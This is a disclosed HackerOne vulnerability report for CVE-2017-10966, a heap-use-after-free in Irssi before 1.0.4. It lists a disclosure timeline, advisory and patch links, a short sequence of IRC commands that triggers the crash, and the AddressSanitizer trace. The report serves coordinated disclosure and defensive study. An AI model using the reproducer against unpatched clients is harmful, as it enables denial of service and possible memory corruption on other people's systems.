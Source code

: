 # CVE-2017-10966: Heap-use-after-free in Irssi <1.0.4

## Report Details
- **Report ID**: 247028
- **URL**: https://hackerone.com/reports/247028
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-07-07T18:45:38.812Z
- **Disclosed**: 2019-10-14T00:11:35.033Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
35 days after reading https://irssi.org/2017/05/12/fuzzing-irssi/, I was able to trigger a heap-use-after-free in irssi 1.0.2.

Timeline:
Report to vendor: 16 June 2017
Acknowledge by vendor: 16 June 2017
Fixed by vendor: 7 July 2017

Advisory:
http://seclists.org/oss-sec/2017/q3/80

Patch:
https://github.com/irssi/irssi/commit/5e26325317c72a04c1610ad952974e206

```
./irssi < test001
CAP LS
NICK root
USER root root /dev/stdin :root
MODE  +i
WHOIS root
WHO +00000000000000000000o00

==30112==ERROR: AddressSanitizer: heap-use-after-free on address 0x607000008100 at pc 0x0000006d3a48 bp 0x7ffdd447b320 sp 0x7ffdd447b318
READ of size 8 at 0x607000008100 thread T0
    #0 0x6d3a47 in nicklist_remove_hash /root/irssi-1.0.2/src/core/nicklist.c:455:30
    #1 0x7f97420273bf in g_hash_table_foreach (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x393bf)
    #2 0x6d3786 in sig_channel_destroyed /root/irssi-1.0.2/src/core/nicklist.c:465:2
    #3 0x6f499b in signal_emit_real /root/irssi-1.0.2/src/core/signals.c:242:3
    #4 0x6f4207 in signal_emit /root/irssi-1.0.2/src/core/signals.c:286:3
    #5 0x699ec1 in channel_destroy /root/irssi-1.0.2/src/core/channels.c:83:2
    #6 0x672ce0 in event_join /root/irssi-1.0.2/src/irc/core/channel-events.c:258:3
    #7 0x6f499b in signal_emit_real /root/irssi-1.0.2/src/core/signals.c:242:3
    #8 0x6f4207 in signal_emit /root/irssi-1.0.2/src/core/signals.c:286:3
    #9 0x62cd3d in irc_server_event /root/irssi-1.0.2/src/irc/core/irc.c:308:7
    #10 0x6f499b in signal_emit_real /root/irssi-1.0.2/src/core/signals.c:242:3
    #11 0x6f59b6 in signal_emit_id /root/irssi-1.0.2/src/core/signals.c:304:3
    #12 0x62d33a in irc_parse_incoming_line /root/irssi-1.0.2/src/irc/core/irc.c:362:3
    #13 0x6f499b in signal_emit_real /root/irssi-1.0.2/src/core/signals.c:242:3
    #14 0x6f59b6 in signal_emit_id /root/irssi-1.0.2/src/core/signals.c:304:3
    #15 0x62d6ba in irc_parse_incoming /root/irssi-1.0.2/src/irc/core/irc.c:383:3
    #16 0x6bb9b2 in irssi_io_invoke /root/irssi-1.0.2/src/core/misc.c:55:3
    #17 0x7f9742038229 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a229)
    #18 0x7f97420385df  (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a5df)
    #19 0x7f974203868b in g_main_context_iteration (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a68b)
    #20 0x57e4a7 in main /root/irssi-1.0.2/src/fe-text/irssi.c:326:3
    #21 0x7f97408273f0 in __libc_start_main /build/glibc-cxyGtm/glibc-2.24/csu/../csu/libc-start.c:291
    #22 0x42e979 in _start (/root/irssi-1.0.2/src/fe-text/irssi+0x42e979)

0x607000008100 is located 64 bytes inside of 72-byte region [0x6070000080c0,0x607000008108)
freed by thread T0 here:
    #0 0x4e4170 in __interceptor_cfree.localalias.1 (/root/irssi-1.0.2/src/fe-text/irssi+0x4e4170)
    #1 0x6d39eb in nicklist_destroy /root/irssi-1.0.2/src/core/nicklist.c:112:2
    #2 0x6d39eb in nicklist_remove_hash /root/irssi-1.0.2/src/core/nicklist.c:456

previously allocated by thread T0 here:
    #0 0x4e4520 in calloc (/root/irssi-1.0.2/src/fe-text/irssi+0x4e4520)
    #1 0x7f974203d9e0 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f9e0)

SUMMARY: AddressSanitizer: heap-use-after-free /root/irssi-1.0.2/src/core/nicklist.c:455:30 in nicklist_remove_hash
```

## Attachments
No attachments
